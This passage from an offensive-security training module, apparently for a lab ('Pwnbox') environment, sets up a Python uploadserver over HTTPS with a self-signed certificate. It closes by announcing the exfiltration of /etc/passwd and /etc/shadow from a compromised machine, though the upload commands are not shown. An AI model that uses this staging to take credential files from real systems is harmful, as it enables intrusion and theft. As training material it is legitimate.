 ## Web Upload

As mentioned in the `Windows File Transfer Methods` section, we can use [uploadserver](https://github.com/Densaugeo/uploadserver), an extended module of the Python `HTTP.Server` module, which includes a file upload page. For this Linux example, let's see how we can configure the `uploadserver` module to use `HTTPS` for secure communication.

### **Pwnbox - Start Web Server**

The first thing we need to do is to install the `uploadserver` module.

```bash
sudo python3 -m pip install --user uploadserver

Collecting uploadserver
  Using cached uploadserver-2.0.1-py3-none-any.whl (6.9 kB)
Installing collected packages: uploadserver
Successfully installed uploadserver-2.0.1
```

### **Pwnbox - Create a Self-Signed Certificate**

Now we need to create a certificate. In this example, we are using a self-signed certificate.

```shell-session
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

Generating a RSA private key
................................................................................+++++
.......+++++
writing new private key to 'server.pem'
-----
```

### **Pwnbox - Start Web Server**

The webserver should not host the certificate. We recommend creating a new directory to host the file for our webserver.

```bash
mkdir https && cd https
```

```bash
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem

File upload available at /upload
Serving HTTPS on 0.0.0.0 port 443 (https://0.0.0.0:443/) ...
```

### **Linux - Upload Multiple Files**

Now from our compromised machine, let's upload the `/etc/passwd` and `/etc/shadow` files.
